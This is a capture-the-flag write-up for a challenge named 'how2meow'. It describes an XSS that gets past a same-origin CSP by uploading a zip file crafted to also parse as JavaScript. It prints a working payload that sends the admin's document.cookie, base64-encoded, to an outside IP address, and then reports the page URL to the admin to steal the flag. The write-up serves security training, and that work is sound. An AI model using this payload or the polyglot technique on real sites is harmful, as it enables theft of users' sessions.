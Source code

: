 # how2meow

> Author: howard41436 | 楊皓丞 | B06902097

### Description

I don't always meow meow meow meow, but when I do, I meow meow meow meow.

### Solution

This is a problem like HW4. We need to find a way to XSS, then steal admin's cookie by reporting the url to admin. Since the CSP only allow scripts in self to execute, we need to upload the payload using the meow uploader. However, the file we uploaded will only be moved to the directory we can access if it can be unzipped, and a file `meow` needs to exist with content starting with `edu-ctf` is extracted. Therefore, we have to upload a valid zip file that is also a javascript. File content of text files will be directly stored in the zip file's binary, so I can put the payload `*/window.location.href="http://140.112.30.33:8888/?x="+btoa(document.cookie);/*` in `evil`, which is zipped together with `meow.` Then, after zipping, I inserted `/*` at the start of the binary and `*/` at the end of the binary. This won't affect the zip file; it can still be unzipped correctly. So now the binary looked like `/*.....*/EVIL PAYLOAD/*....*/`, which is a valid javascript code because the dirty parts are commented. Now, the XSS succeeded, and after reporting the url to the admin, we stole the flag. 